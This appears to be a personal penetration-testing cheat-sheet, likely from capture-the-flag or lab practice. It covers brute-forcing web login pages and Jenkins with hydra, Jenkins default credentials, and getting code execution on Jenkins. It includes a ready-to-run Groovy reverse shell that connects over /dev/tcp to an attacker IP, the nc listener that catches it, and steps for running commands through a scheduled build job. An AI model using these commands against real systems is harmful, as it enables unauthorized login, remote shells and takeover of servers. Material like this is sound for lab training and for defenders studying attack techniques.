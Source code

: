 #### Bruteforce Login page
```
hydra 10.129.222.16 -l dank -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- must include username `-l dank` even if not using on login
- can also use rockyou
- if targeting port 80 instead of 443, make sure to change `https-post-form` to `http-post-form` and syntax to:
```
hydra -L users.txt -P rockyou_ninja http-post-form://127.0.0.1:9001/index.php:"username=^USER^&password=^PASS^&login=:Login Restricted."
```
- use burp to get data for quotes at the end. 3 pieces of data between `:` includes:
	- relative subdirectory of login page
	- burp query
	- burp response or page response that indicates login failed
 - if seeing a bunch of tries and (0/0) in output, means command is wrong

---
### Jenkins
default creds
- admin:password

bruteforce with hydra
```
hydra 127.0.0.1 -s 1337 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
```

get shell from dashboard
- go to http://127.0.0.1:1337/script
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/10.21.90.250/8008; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
- uses 'bash read line shell' from revshells.com
- catches on listener `nc -lvnp 8008`

can also run commands from dashboard
-  create a job > freestyle project > build triggers tab > Build periodically > in schedule field put * * * * * > add build step > execute shell > cmd /c whoami > save
	- 'build now' to trigger job
	- go to build history # and console output

